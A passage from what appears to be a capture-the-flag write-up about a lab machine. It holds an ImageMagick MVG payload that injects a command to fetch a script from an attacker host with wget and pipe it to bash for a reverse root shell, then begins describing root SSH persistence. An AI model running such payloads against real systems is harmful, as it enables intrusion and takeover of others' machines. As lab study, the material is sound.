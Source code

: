 
Once again, using the oh-so-useful AllinOneShell (aios.sh) script, we can create another reverse shell payload.

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"| wget -O - http://10.2.76.47:8000/shell.sh | bash")'
pop graphic-context
```

![](/assets/images/mystiko/mystiko-21.png)

We get a root shell!

It's now important to set up persistence so we don't have to repeat the exploitation everytime we need a shell. 
<br>

### Persistence

*Note: please don't use these persistence methods in a real life engagement.*

When initially scanning the machine, we can see that the SSH service is running.
We can gain root persistence easily using this service.

By default, root SSH login is disabled in the sshd configuration file (`/etc/ssh/sshd_config`), so we must first enable it. 


![](/assets/images/mystiko/mystiko-22.png)
